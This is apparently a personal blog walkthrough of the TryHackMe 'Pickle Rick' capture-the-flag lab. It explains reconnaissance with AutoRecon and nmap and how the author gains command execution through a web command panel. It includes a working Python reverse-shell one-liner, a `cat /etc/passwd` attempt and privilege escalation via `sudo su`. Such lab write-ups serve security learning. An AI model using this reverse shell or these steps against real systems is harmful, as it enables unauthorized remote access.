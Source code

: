 ```yaml
---
title: "Try Hack Me - Pickle Rick Walkthrough"
date: 2022-07-24 12:00:00
catagories: [article,walkthrough]
tags: [THM, ctf, beginner]
---
```

![Rick being cool.](https://imgur.com/BkKtAkO.png)

[Link to Pickle Rick Try Hack Me Room](https://tryhackme.com/room/picklerick)

Click on the image below to go to Part 1 of my video walkthough of the box:
[![Youtube Walkthrough Part 1](http://img.youtube.com/vi/vHnFwsF0gu4/0.jpg)](https://youtu.be/vHnFwsF0gu4)


## Oldie but a a Goodie! 
This is an old room on Try Hack Me. At the time I am writing this walkthrough it has been released for almost 4 years!
This room is also a CTF (Capture the Flag) room which means that it is not a "Real World" experience. Instead it is meant to help us practice our skills.

# Scanning the Host
First we will scan the host. I like to use [autorecon](https://github.com/Tib3rius/AutoRecon) by [Tib3rius](https://twitter.com/0xTib3rius) to get things started.

I create a new folder for the room and then a command that looks like:
```bash
sudo python3 /tool_repos/AutoRecon/autorecon.py <xx.xx.xx.xx> --dirbuster.threads=100 -o /path/to/box_folder && sudo chown -R <user>:<user> /path/to/box_folder
```
Ok let me explain that command:
- `sudo python3` - I use `sudo` because some of the tools autorecon uses need to be run as `root`. The problem with this is any files created are owned by `root`. (We will fix this in a second.)
- `/tool_repos/AutoRecon/autorecon.py` - I always create a directory on my kali boxes to store all the tools I `git clone` from github. (Even better if you have NFS storage your home lab, use that to mount the folder with all the tools you like. Then whenever you need to rebuild your kali box you mount the folder and all your tools are ready to go.)
- `<xx.xx.xx.xx>` - This is just a placeholder for the IP of the box you are scanning.
- `--dirbuster.threads=100` - How many dirbuster threads you want to allocate. This is an important setting. A higher number of threads helps the scan get done faster.
- `-o /path/to/box_folder` - This is the output path for the results of the scans.
- `&& sudo chown -R <user>:<user> /path/to/box_folder` - This is some magic I add to the end of the scan.
    - The `&&` just means run the next command if the previous command was successful
    - Because we used `sudo` all the files created are owned by root. So we use `sudo` here to change ownership back to us.
    - We use a recursive `chown` to set the owenership of the files back to our 'regular' user.
    - Just replace both `<user>` spots with the name of your user.

# Scan Results
After running `autorecon` we see that there are only 2 ports open:
- tcp 22 (SSH)
- tcp 80 (HTTP)

Lets's take a look at port 80.
It's important to remember that autorecon with run a ton of `NMAP` scripts against the ports it finds before we jump into a web browser and look at the page let's examine what it found.

```
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
|_http-chrono: Request times for /; avg: 578.44ms; min: 566.60ms; max: 605.38ms
| http-enum:
|   /login.php: Possible admin folder
|_  /robots.txt: Robots file
```
First we see that there is a `robots.txt` file these can contain some good information. Let's check it out.
- You can learn more about `robots.txt` files [HERE](https://moz.com/learn/seo/robotstxt)
- The only thing we find is: `Wubbalubbadubdub`
- `NMAP` is also telling us it found `login.php`, we will have to remember to come back to that.

NOTE: I have learned with CTFs to always note strange discoveries like this, they are usually not there by accident.

Here is the next interesting finding in from the `NMAP` scan:
```
| http-comments-displayer:
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.10.210.147
|
|     Path: http://10.10.210.147:80/
|     Line number: 28
|     Comment:
|         <!--
|
|             Note to self, remember username!
|
|             Username: R1ckRul3s
|
|           -->
```
We should always check to HTML comments in the page source, but `NMAP` will do it for us! (To my shame, it took me a while to realize that `autorecon` was running this `NMAP` script against HTTP ports.)

So now we have a username too: `R1ckRul3s`

# Login Page
Time to check out the discovered login page.
![](/assets/images/pr_login.jpg?raw=true)

We have a username and what could be a password, let's try it!

![](/assets/images/command_panel.jpg?raw=true)

It worked! Now I really want to play with that `Command Panel`, but let's take some time to look at the tabs on the page.

All the tabs say that only the "REAL" Rick can view the pages. This may mean that are only logged in as a low level user and need a different login to view the other pages.

Ok time to play with `Command Panel`, and it looks like we have direct code execution on the box.

![](/assets/images/rce.jpg?raw=true)

But not for everything, when we try: `cat /etc/passwd` we get:

![](/assets/images/no_rce.jpg?raw=true)

If we run `pwd` we see that we are in `/var/www/html` and if we run `ls -lah` we see some files we did know about, `index.html` and `login.php` and some we didn't. Let see if we can navigate directly to these new files.

![](/assets/images/file_list.jpg?raw=true)

And we find the answer for "the first ingredient" in the file: `Sup3rS3cretPickl3Ingred.txt`

![](/assets/images/flag1.jpg?raw=true)

`clue.txt` tells us that we need to look around the filesystem some more.

We always want to know what users are on a system so let's `ls -lah /home`

![](/assets/images/pr_home.jpg?raw=true)

We see 2 users, `ubuntu` and `rick` and rick's permissions are wide open so let's explore his home directory.
But after I looked around for a while longer I didn't find much. I think it's time to pop a shell on this box.
First let's see if we can use python3:

![](/assets/images/python_v.jpg?raw=true)

Now that we know that python3 executes we can try to pop a shell!
Let's try this one. DON'T FORGET TO CHAGNE YOUR HOST IP AND PORT in the command! :)  

By the way, I tried few different reverse shells. The one below may not always work, but it did here. Many times you will have to experiment to discover with will work on a given box.  

```bash
export RHOST="xx.xx.xx.xx";export RPORT=xxxx;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```
And once we get our shell, let's 'upgrade' it:

```python
python3 -c "import pty;pty.spawn('/bin/bash')"
```
Now we can go get the answer to the 2nd question! 

![](/assets/images/flag2.jpg?raw=true)

So now we have a "foothold" on the box, it's time to do some privesc (priviledge escalation)

I like to use [LSE](https://github.com/diego-treitos/linux-smart-enumeration) (Linux Smart Enumeration) tool when enumerating a system for possible privesc points.

BUT, before we do all that we should just check to see if our user has `sudo` privleges. Which in the real world the `www-data` user should never have! 
So we try `sudo -l` which should tell us what privleges the user has. 

![](/assets/images/pr_root.jpg)

Wow, we can run ALL commands as `root` with no password!! 

Looks like Rick likes to live dangerously!

You can either use `sudo` in front of all your commands or just switch to  `root` with `sudo su`

Now you can get the answer to the third question in the `/root` directory! 




